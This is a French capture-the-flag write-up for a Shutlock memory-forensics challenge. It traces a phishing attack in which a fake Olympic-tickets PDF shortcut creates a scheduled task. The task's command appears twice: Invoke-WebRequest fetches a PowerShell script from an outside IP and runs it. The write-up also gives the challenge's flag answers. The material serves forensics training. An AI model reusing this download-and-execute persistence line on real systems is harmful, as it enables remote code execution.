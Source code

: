 ## Description

### Enquête sur le phishing des JO : Retracer l'attaque Partie 1
Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite avoir. 

Vous avez pour mission de réaliser l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié. 

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ? 

Pour résoudre ce challenge, vous devez répondre aux questions suivantes : 

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créée ?

3 - Quel script est lancé par cette scheduled task ?

#### Format du flag

**SHLK{'nom-fichier'-'scheduled task-'script'}**

#### Exemple

1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

**SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}**


#### SHA256

dump.raw : 757D150394158D68F33D25A46EF45D6874FE046A40DA7E97C3C0D33DF21EB7E1

dump.zip : 3C6DA179B87FA2DC0ACB988466428679FD6AF0905F004A56E8A968A83009E16D

## Objectif de la création de ce challenge

Ce challenge a été créé pour la première édition du CTF Shutlock.

Il a été réalisé afin de permettre une introduction à l'analyse de timeline et de dump mémoire.

## Solve

### TL;DR

- Analyse du système de fichiers pour trouver le script malveillant
- Analyse des tasks créées

### Informations trouvées grâce à l'énoncé

- Mail de phishing

Fichiers donnés : 

- `dump.raw` : dump mémoire de l'ordinateur infecté (Windows 10)
- `ordi.png` : screenshot de l'ordinateur infecté

### Informations trouvées grâce à ordi.png

Information sur les processus en cours et malveillants 
- Notepad : instructions.txt
- Edge : Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf

Permets d'avoir une idée de l'heure à laquelle l'attaque a eu lieu.

### Etude

- Utilisation de l'outil [MemProcFS](https://github.com/ufrisk/MemProcFS)

```bash
MemProcFS.exe -forensic 1 -device dump.raw
```

- **Quel est le nom du fichier malveillant ?**

L'accès initial étant un mail de phishing, on regarde son système de fichiers pour voir s'il n'a pas téléchargé le fichier malveillant.

Visible dans `M:\forensic\ntfs\1\Users\clara\Downloads\`
On remarque qu'il a téléchargé *Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.zip*.

Ce zip extrait le fichier `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf` ayant pour type `raccourci`.

Première partie du flag : `Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk`

- **Quel est le nom de la scheduled task créée ?**

Visible dans `M:\forensic\csv\tasks.csv` qu’on va analyser dans timeline explorer (fichier .tle_sess)

On voit la première task `IGotYourFileInfo` ayant pour ligne de commande `Invoke-WebRequest` et pour paramètre `-Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1`

On vérifie dans `M:\forensic\csv\timeline_tasks.csv` que la task a été créée.

Deuxième partie du flag : `IGotYourFileInfo`

- **Quel script est lancé par cette scheduled task ?**

````powershell
IGotYourFileInfo - [Invoke-WebRequest :: -Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1] (Author)
````

Le script lancé est le paramètre de *-OutFile*

Troisième partie du flag : GetFilesInfo.ps1